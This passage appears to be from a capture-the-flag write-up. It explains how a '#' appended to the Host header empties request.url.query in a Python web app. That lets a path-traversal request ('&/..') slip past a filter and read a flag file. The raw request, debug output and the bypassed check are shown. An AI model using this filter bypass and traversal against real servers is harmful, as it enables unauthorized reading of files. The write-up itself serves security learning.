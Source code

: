 For more simplicity look at the below request:

```
GET /view?2987bf4c72b6ade55901d57df14810f7=flag&/.. HTTP/1.1
Host: 34.146.195.115#
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
```

Did you notice the `#` appended in the `Host` header value?

Because of this `#` character , now `request.url.query` doesn't returns anything.



```python
>print("request.url.query: {}".format(request.url.query))
request.url.query:
Filename: flag
request.query_params: 2987bf4c72b6ade55901d57df14810f7=flag&%2F..=
request.query_params.keys(): dict_keys(['2987bf4c72b6ade55901d57df14810f7', '/..'])
Path: ./memo/2987bf4c72b6ade55901d57df14810f7/../flag
```

As `request.url.query` doesn't returns anything the if codition check is easily bypassed:

```python
if '&' in request.url.query or '.' in request.url.query or '.' in unquote(request.query_params[clientId]):
    print("You are caught")
    raise
```